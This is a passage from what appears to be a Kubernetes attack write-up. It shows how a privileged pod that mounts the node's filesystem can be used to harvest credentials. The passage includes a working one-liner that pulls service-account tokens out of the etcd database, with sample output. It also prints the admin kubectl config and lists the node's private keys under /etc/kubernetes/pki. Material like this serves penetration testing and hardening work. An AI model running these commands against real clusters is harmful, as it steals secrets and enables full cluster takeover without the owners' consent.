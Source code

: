 Print all etcd secrets (exploit taken from [here](https://github.com/BishopFox/badPods/blob/main/manifests/priv/README.md#mount-the-hosts-filesystem)):
```
[root@seck8s /]# db=`strings /mnt/var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
B/registry/secrets/kube-system/resourcequota-controller-token-7q9bd | eyJhbGciOiJSUzI1NiIsImtpZ...
...
```



### Access node's file system (`hostPath: ...`)

Admin config for `kubectl`:
```
[root@seck8s /]# ls -l ~/.kube/config
-rw------- 1 root root 5670 Oct  7 14:28 /root/.kube/config


[root@seck8s /]# kubectl config view
apiVersion: v1
clusters:
- cluster:
    certificate-authority-data: DATA+OMITTED
    server: https://188.2***:6443
  name: kubernetes
contexts:
- context:
    cluster: kubernetes
    namespace: ingress-nginx
    user: kubernetes-admin
  name: kubernetes-admin@kubernetes
current-context: kubernetes-admin@kubernetes
kind: Config
preferences: {}
users:
- name: kubernetes-admin
  user:
    client-certificate-data: REDACTED
    client-key-data: REDACTED
```

Kubernetes node-specific secrets:
```
[root@pod-privileged /]# tree /etc/kubernetes/
/etc/kubernetes/
├── admin.conf
├── controller-manager.conf
├── kubelet.conf
├── manifests
│   ├── etcd.yaml
│   ├── kube-apiserver.yaml
│   ├── kube-controller-manager.yaml
│   └── kube-scheduler.yaml
├── pki
│   ├── apiserver.crt
│   ├── apiserver-etcd-client.crt
│   ├── apiserver-etcd-client.key
│   ├── apiserver.key
│   ├── apiserver-kubelet-client.crt
│   ├── apiserver-kubelet-client.key
│   ├── ca.crt
│   ├── ca.key
│   ├── etcd
│   │   ├── ca.crt
│   │   ├── ca.key
```